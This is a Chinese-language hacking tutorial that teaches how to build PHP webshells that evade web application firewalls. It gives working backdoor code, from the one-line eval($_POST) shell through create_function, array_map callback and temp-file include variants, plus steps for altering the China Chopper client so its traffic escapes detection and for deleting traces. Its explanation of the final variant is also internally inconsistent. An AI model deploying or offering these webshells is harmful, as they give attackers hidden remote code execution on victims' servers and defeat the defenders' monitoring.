





# 课程 P1：换向思维免杀WebShell 🛡️➡️🚫



在本课程中，我们将学习如何通过“换向思维”来绕过WAF（Web应用防火墙）的查杀规则，实现WebShell的免杀。我们将从基础准备开始，逐步分析PHP关键函数、WebShell工作原理，并最终构建一个能够绕过主流WAF检测的WebShell。

## 概述

传统的WebShell免杀方法通常依赖于内容加密或编码。然而，这些方法容易被WAF的规则库或人工智能引擎识别。本节课将介绍一种不同的思路——换向思维，通过改变代码的执行和调用方式，而非单纯加密载荷，来规避检测。我们将学习必要的PHP函数，理解一句话木马的工作原理，并动手实践构建一个免杀的WebShell。

---

## 第一节：基础准备 🛠️

在开始之前，我们需要做好以下三项基础准备。

以下是具体需要准备的内容：

1.  **PHP编程语言基础知识**：后续内容涉及PHP代码编写与分析，具备基础语法知识是理解课程的关键。
2.  **中国菜刀（2016版）**：建议使用此版本进行客户端连接测试，课程后期会涉及客户端的免杀修改。
3.  **Web服务器环境**：需要配置PHP运行环境（如Apache、Nginx、IIS等），用于测试WebShell。

---

## 第二节：PHP关键函数回顾 📚

上一节我们准备好了基础环境，本节中我们来看看构建免杀WebShell所需的核心PHP函数。理解这些函数的作用至关重要。

以下是本课程将用到的PHP函数及其简要说明：

*   **`@`**：错误控制运算符，用于抑制PHP脚本中的非致命错误信息输出。
*   **`base64_decode()`**：用于解码经过Base64编码的字符串。
*   **`function`**：用于创建一个新的用户自定义函数。函数名不能与PHP内置函数冲突。
*   **`array_map()`**：**重点函数**。将用户自定义函数作用到数组中的每个值上，并返回结果数组。其回调机制是本次免杀的关键思路之一。
*   **`create_function()`**：**重点函数**。创建一个匿名（或lambda）函数。与`function`不同，它创建的函数可以没有名称，通常将函数体赋值给一个变量。
*   **`array()`**：创建一个数组。
*   **`tempnam()`**：在指定目录中创建一个具有唯一文件名的临时文件，避免文件名冲突。
*   **`sys_get_temp_dir()`**：返回PHP用于存储临时文件的目录路径。
*   **`fwrite()`**：向已打开的文件写入内容。
*   **`fopen()`**：打开一个文件或URL。用于文件操作时，需配合模式参数（如`’w’`用于写入）。
*   **`unlink()`**：删除一个文件。
*   **`var_dump()`**：用于输出变量的详细信息，包括类型和值，常用于调试。
*   **`file_exists()`**：检查文件或目录是否存在，返回布尔值。

---

## 第三节：WebShell工作原理分析 ⚙️

了解了必要的函数后，我们需要深入理解攻击目标。本节我们将分析经典一句话WebShell的工作原理，这是设计免杀方案的基础。

最常见的PHP一句话木马代码如下：

```php
<?php @eval($_POST[‘pass’]); ?>
```

其工作原理如下：
1.  `$_POST[‘pass’]` 接收客户端（如中国菜刀）通过POST请求传递的名为 `pass` 的参数值。
2.  `eval()` 函数将这个参数值**当作PHP代码来执行**。

例如，当客户端传递 `pass=phpinfo();` 时，服务端实际执行的代码是 `eval(“phpinfo();”)`，从而执行了`phpinfo()`函数。这使得攻击者可以通过传递不同的参数值，在服务器上执行任意PHP命令。

WAF的查杀规则通常围绕以下几点构建：
1.  **上传检测**：检查上传文件的内容是否包含`eval($_POST[‘xxx’])`等敏感模式。
2.  **文件落地检测**：检查服务器上已存在的文件是否包含WebShell特征。
3.  **流量检测**：监控HTTP请求，检查POST数据包中是否包含可执行的PHP代码特征。

传统的编码加密主要对抗第1点和第2点，但容易被规则库或AI模型模式识别。我们的“换向思维”旨在从根本上改变代码的**调用和执行方式**，而不仅仅是隐藏代码内容。

---

## 第四节：构建免杀WebShell 🧱

基于前面的原理分析，我们现在开始动手构建免杀的WebShell。核心思路是避免直接使用 `eval($_POST[‘…’])` 这种明显模式，转而利用回调、匿名函数、文件包含等间接方式执行代码。

### 思路一：使用 `create_function` 与变量函数

直接使用 `eval` 极易被检测。我们尝试使用 `create_function` 创建一个匿名函数来执行代码。

```php
<?php
$pass = $_POST[‘pass’];
$a = create_function(‘’, $pass);
$a();
?>
```

**分析**：这里将POST参数传递给 `create_function` 作为函数体，然后通过变量 `$a()` 调用执行。然而，一些高级WAF仍然会检测 `create_function` 的参数是否可控。

### 思路二：结合 `array_map` 进行回调

为了进一步规避，我们可以引入 `array_map` 函数。`array_map` 的第一个参数是回调函数，我们可以利用这一点。

```php
<?php
function my_func($code) {
    $f = create_function(‘’, $code);
    return $f();
}
array_map(‘my_func’, array($_POST[‘pass’]));
?>
```

**分析**：通过自定义函数 `my_func` 包装 `create_function`，再使用 `array_map` 来回调。这增加了一层间接性，但 `create_function` 内的可控变量可能仍是特征。

### 思路三：字符串拼接与临时文件包含（最终方案）

更彻底的思路是，不直接在任何函数中执行可控代码，而是将其先写入一个临时文件，再通过包含（`include`）该文件来执行。同时，利用字符串处理避免直接传递变量。

```php
<?php
// 1. 将接收的代码用字符串形式保存，避免直接解析
$code = ‘<?php @eval($_POST[\“pass\“]); ?>‘; // 注意转义引号

// 2. 创建临时文件
$temp_file = tempnam(sys_get_temp_dir(), ‘cf’);
$handle = fopen($temp_file, ‘w’);
fwrite($handle, $code);
fclose($handle);

// 3. 包含临时文件以执行代码
include($temp_file);

// 4. (可选) 执行后删除临时文件，清理痕迹
if (file_exists($temp_file)) {
    unlink($temp_file);
}
?>
```

**关键点**：
*   **换向**：核心逻辑从“直接执行POST代码”换向为“将代码写入文件 -> 包含文件”。
*   **免杀**：在PHP脚本中，`$code` 变量只是一个普通的字符串，不包含可执行的代码特征。恶意代码仅在临时文件中存在，且该文件路径是动态生成的。
*   **客户端适配**：此WebShell需要客户端（菜刀）发送Base64编码后的PHP代码到 `pass` 参数。因为WebShell中的 `$code` 变量是硬编码的字符串，我们需要修改菜刀，使其发送的payload符合这个新WebShell的预期（即发送原始PHP代码，而不是经过菜刀自身拼接的payload）。

---

## 第五节：客户端免杀适配 🔧

上一节我们完成了服务端WebShell的免杀，但WAF同样会检测客户端发送的流量。本节我们来看看如何修改中国菜刀，以实现客户端的流量免杀。

默认情况下，中国菜刀发送的POST数据包含明显的特征，如 `eval(base64_decode($_POST[‘z1’]));` 等。我们的新WebShell期望 `pass` 参数是Base64编码的**待执行代码**。

**修改思路**：
1.  找到中国菜刀中定义PHP Base64类型payload的配置文件或脚本部分。
2.  定位到发送核心命令的代码段，通常是一个包含 `eval(base64_decode(…))` 的字符串。
3.  修改该部分，**只保留`base64_decode()`括号内的那个Base64编码字符串本身**，移除外层的 `eval` 等包装代码。

**示例（概念性）**：
原始菜刀payload可能类似于：`“eval(base64_decode(‘”.base64_encode($command).“‘));”`
修改后应为：`base64_encode($command)` 的结果本身。

这样，客户端发送的数据就只是一个Base64字符串，不包含任何PHP代码特征，从而能够绕过WAF的流量检测。修改后，菜刀需要将编码后的指令直接赋值给 `pass` 参数。

> **注意**：具体修改方法因菜刀版本而异。2016版本结构相对清晰，易于定位。修改任何工具都应仅用于授权测试和学习目的。

---





## 总结 🎯

在本节课中，我们一起学习了“换向思维”免杀WebShell的全过程：

1.  **原理基础**：我们分析了传统一句话木马的工作原理和WAF的常见查杀规则。
2.  **核心思路**：提出了“换向思维”——通过改变代码执行方式（如利用回调函数、匿名函数、文件包含）来规避基于特征码的检测，而非仅仅加密载荷内容。
3.  **实践构建**：逐步构建了一个利用 `tempnam`、`fwrite` 和 `include` 的免杀WebShell，将动态代码的执行转移到临时文件中完成。
4.  **客户端适配**：探讨了通过修改中国菜刀的payload生成逻辑，实现客户端流量免杀的方法。






关键要点在于：**免杀是一个对抗过程，需要同时考虑服务端文件特征和客户端流量特征**。通过灵活组合语言特性、改变执行流程，可以有效提高WebShell的隐蔽性。请务必在合法授权的环境中进行相关技术的学习和测试。